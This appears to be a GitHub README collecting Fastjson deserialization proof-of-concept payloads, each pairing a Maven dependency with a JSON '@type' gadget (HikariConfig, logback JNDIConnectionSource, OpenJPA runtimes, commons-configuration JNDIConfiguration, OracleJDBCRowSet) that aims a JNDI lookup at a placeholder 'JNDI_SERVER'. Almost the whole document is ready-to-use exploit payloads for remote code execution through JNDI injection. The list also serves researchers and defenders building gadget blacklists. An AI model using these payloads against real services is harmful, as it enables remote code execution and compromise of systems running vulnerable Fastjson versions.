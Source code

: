 # FastjsonPocs

一些结合第三方组件的Fastjson POC，在1.2.48以后版本中陆续被添加至黑名单，欢迎补充。

### com.zaxxer.hikari.HikariConfig:

```
  <dependency>
      <groupId>com.zaxxer</groupId>
      <artifactId>HikariCP</artifactId>
      <version>3.3.1</version>
  </dependency>

```

>   {"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"JNDI_SERVER"}

### ch.qos.logback.core.db.JNDIConnectionSource:

```
  <dependency>
      <groupId>ch.qos.logback</groupId>
      <artifactId>logback-core</artifactId>
      <version>1.2.2</version>
  </dependency>

```

>   {"@type":"ch.qos.logback.core.db.JNDIConnectionSource","jndiLocation":"JNDI_SERVER"}

### org.apache.openjpa.ee.

```
  <dependency>
      <groupId>org.apache.openjpa</groupId>
      <artifactId>openjpa</artifactId>
      <version>3.0.0</version>
  </dependency>

```

>   {"@type":"org.apache.openjpa.ee.JNDIManagedRuntime","transactionManagerName":"JNDI_SERVER","rollbackOnly":null}

>   {"@type":"org.apache.openjpa.ee.RegistryManagedRuntime","registryName":"JNDI_SERVER","rollbackOnly":null}

### org.apache.commons.configuration.JNDIConfiguration

```
  <dependency>
      <groupId>commons-configuration</groupId>
      <artifactId>commons-configuration</artifactId>
      <version>1.10</version>
  </dependency>

```

>   {"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"JNDI_SERVER"}

### org.apache.commons.configuration2.JNDIConfiguration

```
  <dependency>
      <groupId>org.apache.commons</groupId>
      <artifactId>commons-configuration2</artifactId>
      <version>2.2</version>
  </dependency>

```

>   {"@type":"org.apache.commons.configuration2.JNDIConfiguration","prefix":"JNDI_SERVER"}

### oracle.jdbc.rowset.OracleJDBCRowSet

```
  <dependency>
      <groupId>com.oracle.ojdbc</groupId>
      <artifactId>ojdbc8</artifactId>
      <version>19.3.0.0</version>
  </dependency>

```

>   {"@type":"oracle.jdbc.rowset.OracleJDBCRowSet","dataSourceName":"JNDI_SERVER","command":"test"}

